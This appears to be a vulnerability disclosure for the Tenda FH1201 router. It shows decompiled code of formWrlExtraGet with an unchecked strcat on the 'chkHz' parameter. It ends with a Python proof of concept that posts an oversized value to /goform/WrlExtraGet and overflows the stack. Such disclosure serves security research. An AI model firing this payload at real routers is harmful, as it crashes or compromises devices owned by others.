

## WrlExtraGet

Tenda FH1201 v1.2.0.14: https://www.tendacn.com/download/detail-3322.html

### description

Tenda FH1201 has a stack buffer overflow vulnerability in `formWrlExtraGet`.

```cpp
int __fastcall formWrlExtraGet(int a1)
{
  // ...
  chkHz = (char *)websGetVar(a1, "chkHz", "0");    // get from parameter
  Var = (char *)websGetVar(a1, "extra_mode", 0);
  if ( !strcmp(chkHz, "0") )
  {
    get_wl_cfg_info(24, 0, 0, v62, 0);
  }
  else if ( !strcmp(chkHz, "1") )
  {
    get_wl_cfg_info(5, 0, 0, v62, 0);
  }
  sprintf(v63, "%s%s", v62, "wisp.");
  sprintf(v64, "%s%s", v62, "client.");
  if ( !Var )
  {
    v1 = sub_4716B0(v62, "wds.bdg.limit", v66);
    GetValue(v1, v33);
    v2 = sub_4716B0(v62, "workmode", v66);
    GetValue(v2, v59);
    if ( !strcmp(v59, "sta") )
    {
      Var = "wisp";
    }
    else if ( !strcmp(v59, "wet") )
    {
      Var = "apclient";
    }
    else if ( !strcmp((const char *)v33, "1") )
    {
      Var = "wds";
    }
    else
    {
      Var = "ap";
    }
  }
  strcat(v60, chkHz);   // BUG: not check size lead to bufffer overflow
  strcat(v60, "\r");
  // ...
}
```


### PoC

```python
import requests

ip = "192.168.85.143"
url = "http://" + ip + "/goform/WrlExtraGet"

data = {
    "chkHz": "a" * 0x4000
}

response = requests.post(url, data=data)
print(response.text)
```

